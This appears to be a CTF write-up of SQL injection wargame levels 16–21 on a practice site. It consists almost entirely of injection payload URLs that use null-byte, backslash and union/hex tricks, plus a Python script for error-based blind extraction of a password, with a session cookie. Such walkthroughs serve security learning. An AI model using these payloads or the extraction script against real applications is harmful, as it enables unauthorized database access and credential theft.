 ___

## 16. Zombie Assassin
[http://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=%00%27||1%23](http://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=%00%27||1%23)

___

## 17. Succubus
[http://los.eagle-jump.org/succubus_8ab2d195be2e0b10a3b5aa2873d0863f.php?id=\&pw=||1%23](http://los.eagle-jump.org/succubus_8ab2d195be2e0b10a3b5aa2873d0863f.php?id=\&pw=||1%23)

___

## 18. Nightmare
[http://los.eagle-jump.org/nightmare_ce407ee88ba848c2bec8e42aaeaa6ad4.php?pw=%27=1%29;%00](http://los.eagle-jump.org/nightmare_ce407ee88ba848c2bec8e42aaeaa6ad4.php?pw=%27=1%29;%00)

___

## 19. Xavis
[http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=%27||id=%27admin%27%26%26@x:=hex%28pw%29+union+select+@x%23](http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=%27||id=%27admin%27%26%26@x:=hex%28pw%29+union+select+@x%23)
```
000000B8000000F9000000C5000000B0000000C6000000D0000000C4000000A1000000A4000000BB
```

[http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=%C2%B8%C3%B9%C3%85%C2%B0%C3%86%C3%90%C3%84%C2%A1%C2%A4%C2%BB](http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=%C2%B8%C3%B9%C3%85%C2%B0%C3%86%C3%90%C3%84%C2%A1%C2%A4%C2%BB)

___

## 20. Dragon
[http://los.eagle-jump.org/dragon_7ead3fe768221c5d34bc42d518130972.php?pw=%0a%20and%20false%20or%20id=%27admin](http://los.eagle-jump.org/dragon_7ead3fe768221c5d34bc42d518130972.php?pw=%0a%20and%20false%20or%20id=%27admin)

___

## 21. Iron Golem
``` python
import urllib
import httplib
 
Pw=""
for i in range(1,100):
    isFind=False
    for a in range(ord("a"),ord("z")+1)+range(ord("0"),ord("9")+1)+range(33,128):
        Payload="%27||if(substr(pw,"+str(i)+",1)="+str(hex(a))+",1,(select+1+union+select+2))%23"
        print Payload
        HTTP=httplib.HTTPConnection("los.eagle-jump.org")
        Param=urllib.urlencode({})
        Headers={"Cookie":"PHPSESSID=hu11kjoc33a1k6puht8em5s505"}
        HTTP.request("GET","/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="+Payload,Param,Headers)
        Result=HTTP.getresponse().read()
        if not "Subquery" in Result:
            Pw+=chr(a)
            print "["+str(i)+"] Find : "+Pw
            isFind=True
```